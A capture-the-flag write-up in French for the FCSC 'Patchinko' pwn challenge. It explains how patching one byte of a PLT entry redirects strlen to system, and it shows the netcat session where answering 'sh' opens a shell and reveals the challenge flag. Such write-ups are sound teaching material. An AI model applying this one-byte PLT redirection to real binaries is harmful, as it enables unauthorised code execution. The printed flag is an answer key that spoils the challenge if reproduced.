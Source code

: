 # Pwn - Patchinko
![énoncé](images/pwn_patchinko.jpg)  
D'après l'énoncé, il est possible de patcher le binaire avant de l'exécuter. Nous allons voir ça tout de suite, on se connecte au challenge :  
```
$ nc challenges1.france-cybersecurity-challenge.fr 4009
================================
== Patchinko Gambling Machine ==
================================

We present you the new version of our Patchinko Gambling Machine!
This is a game of chance: you need to guess a 64-bit random number.
As we have been told that it is quite hard, we help you.
Before the machine executes its code, you can patch *one* byte of its binary.
Choose wisely!

At which position do you want to modify (base 16)?
>>> 1
Which byte value do you want to write there (base 16)?
>>> 1
== Let's go!
```  
On peut donc changer un seul octet du binaire, reste à savoir lequel.  
On récupère le binaire du challenge, un petit ``file patchinko.bin`` puis on le désassemble pour voir ce qu'il contient.  
```
$ file patchinko.bin 
patchinko.bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=ea28c1aa273a99a5c9323b062e3277734bbed0be, not stripped
$ cutter patchinko.bin
```  
C'est un ELF 64 bits, les adresses feront donc ... 64 bits soit 8 octets.  
![patchinko dans cutter](images/pwn_patchinko_cutter.jpg)  
Avant même de s'intéresser à ce que Ghidra nous a sorti, on remarque que la fonction ``system`` est utilisée dans le binaire :  
```
sym.imp.system      6       0x004006d0
```  
Elle est appelée dans ``main`` :  
```c
system("echo Hello! Welcome to Patchinko Gambling Machine.");
```  
On ne voit pas de fonction spéciale à appeler ou de condition à remplir pour afficher le flag.  
Il faut trouver un octet à changer pour nous permettre d'avoir un shell.  
On pourrait modifier une entrée de la partie résolution de la PLT (Procedure Linkage Table) afin de la faire pointer vers ``system``.  
Rappel :  
```c
int system(const char *command);
```  
Tout d'abord, regardons à quels endroits nous contrôlons le contenu d'une variable ou d'un buffer :  
```c
printf("Is this your first time here? [y/n]\n>>> ");
fgets(&s, 4, _reloc.stdin);
iVar1 = strlen(&s);
```  
```c
printf("Welcome among us! What is your name?\n>>> ");
fgets(&var_50h, 0x40, _reloc.stdin);
iVar1 = strlen(&var_50h);
*(undefined *)((int64_t)&ptr + iVar1 + 7) = 0;
printf("Nice to meet you %s!\n", &var_50h);
```  
```c
puts("Guess my number");
*(undefined8 *)0x0 = (char *)fopen("/dev/urandom", 0x400b20);
fread(&ptr, 8, 1, *(undefined8 *)0x0);
printf(0x400b2f, ptr);
__isoc99_scanf("%lld", &var_60h);
```  
Parmis les fonctions qui font passer en argument une variable que l'on contrôle, ``strlen`` est la seule qui demande un seul argument de type ``const char *`` exactement comme ``system``.  
On va donc changer ``strlen`` par ``system`` en modifiant son entrée dans la PLT.  
On regarde l'opcode pour ``system`` :  
```
0x004006d0:     ff2562092000    jmp qword [rip + 0x200962];
```  
Et pour ``strlen`` :  
```
0x004006c0:     ff256a092000    jmp qword [rip + 0x20096a];
```  
Parfait ! Un seul octet diffère, on a trouvé quel octet changer !  
Il faudra donc remplacer ``6a`` par ``62`` maiiiis ... nous changeons les adresses contenues dans la PLT et comme on peut le voir, ce n'est pas une adresse mais un offset (un décalage) par rapport à une adresse précise (``rip`` dans notre exemple, donc par rapport à l'endroit où l'on se situe).  
Et comme ``0x004006d0 - 0x004006c0 = 0x10`` on fait ``0x62 + 0x10 = 0x72``, on remplacera donc notre ``6a`` par ``72``.  
Maintenant il faut trouver à quel endroit dans le binaire se trouve ce fameux octet que l'on doit changer.  
```
$ xxd patchinko.bin | grep "6a09"
000006c0: ff25 6a09 2000 6803 0000 00e9 b0ff ffff  .%j. .h.........
```  
Le ``6a`` se trouve à l'adresse ``0x6c2`` dans le binaire.  
On a :  
* l'adresse de l'octet à changer : ``0x6c2``
* et sa nouvelle valeur : ``0x72``  

Mais c'est pas tout, il savoir à quel moment ``strlen`` sera appelé pour donner le bon argument à ``system``.  
Voici ce que Ghidra nous sort pour le ``main`` :  
```c
undefined8 main(void)
{
    int64_t iVar1;
    int64_t var_60h;
    int64_t ptr;
    char *var_50h;
    char cStack21;
    char *s;
    
    setvbuf(_reloc.stdout, 0, 2, 0);
    system("echo Hello! Welcome to Patchinko Gambling Machine.");
    do {
        printf("Is this your first time here? [y/n]\n>>> ");
        fgets(&s, 4, _reloc.stdin);
        iVar1 = strlen(&s); // <--------- ici
        (&cStack21)[iVar1] = '\0';
        if ((char)s == 'y') break;
    } while ((char)s != 'n');
    if ((char)s == 'n') {
        puts("Welcome back then!");
    } else {
        printf("Welcome among us! What is your name?\n>>> ");
        fgets(&var_50h, 0x40, _reloc.stdin);
        iVar1 = strlen(&var_50h);
        *(undefined *)((int64_t)&ptr + iVar1 + 7) = 0;
        printf("Nice to meet you %s!\n", &var_50h);
    }
    puts("Guess my number");
    *(undefined8 *)0x0 = (char *)fopen("/dev/urandom", 0x400b20);
    fread(&ptr, 8, 1, *(undefined8 *)0x0);
    printf(0x400b2f, ptr);
    __isoc99_scanf("%lld", &var_60h);
    fclose(stack0xfffffffffffffff0);
    if (var_60h == ptr) {
        puts("Wow, you win!! Congratulations! Contact us to claim your prize.");
    } else {
        printf("Close but no! It was %lld. Try again!\n", ptr);
    }
    return 0;
}
```  
Donc quand le programme affichera ``Is this your first time here? [y/n]\n>>> `` il faudra répondre ``sh`` et normalement on aura notre shell.  
On se connectes au challenge pour vérifier ça :  
```
$ nc challenges1.france-cybersecurity-challenge.fr 4009
================================
== Patchinko Gambling Machine ==
================================

We present you the new version of our Patchinko Gambling Machine!
This is a game of chance: you need to guess a 64-bit random number.
As we have been told that it is quite hard, we help you.
Before the machine executes its code, you can patch *one* byte of its binary.
Choose wisely!

At which position do you want to modify (base 16)?
>>> 6c2
Which byte value do you want to write there (base 16)?
>>> 72
== Let's go!
Hello! Welcome to Patchinko Gambling Machine.
Is this your first time here? [y/n]
>>> sh
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls -la
total 28
drwxr-xr-x 1 root root 4096 Apr 26 14:20 .
drwxr-xr-x 1 root root 4096 Apr 26 14:55 ..
-rw-r--r-- 1 root root   71 Apr 26 14:19 flag
-rwxr-xr-x 1 root root 8912 Apr 26 14:20 patchinko.bin
-rw-r--r-- 1 root root 1408 Apr 26 14:19 patchinko.py
cat flag
FCSC{b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc4475102998}
```  
  
**FLAG : FCSC{b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc4475102998}**